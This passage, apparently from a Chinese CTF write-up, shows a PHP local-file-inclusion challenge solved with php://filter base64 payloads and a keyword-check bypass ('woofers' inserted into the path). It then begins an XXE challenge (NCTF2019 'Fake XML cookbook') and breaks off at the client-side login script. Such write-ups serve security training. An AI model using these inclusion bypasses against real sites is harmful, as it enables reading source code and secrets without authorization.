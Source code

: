 可能有文件包含的洞，然后用php伪协议读index.php，这里只写到了index，后面的php代码会自己加上：

`category=php://filter/read=convert.base64-encode/resource=flag`

```php+HTML
.....other html
<?php
$file = $_GET['category'];
if(isset($file)) {
	if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")) {
		include ($file . '.php');
	} else {
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
.....other html
```

然后试了下：`category=woofers/../flag`，出现了`<!-- Can you read this flag? -->`

之后看到了可以这样文件包含：

```
category=php://filter/read=convert.base64-encode/resource=flag
category=php://filter/read=convert.base64-encode/woofers/resource=flag
这样既有woofers，也不会影响文件包含
```

可以拿到flag

# 0x29.[NCTF2019]Fake XML cookbook

>   考点：XXE
>
>   https://xz.aliyun.com/t/6887
>
>   https://www.freebuf.com/vuls/175451.html

首先看题目就知道应该是XXE，源码：

```javascript
<script type='text/javascript'> 
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
```
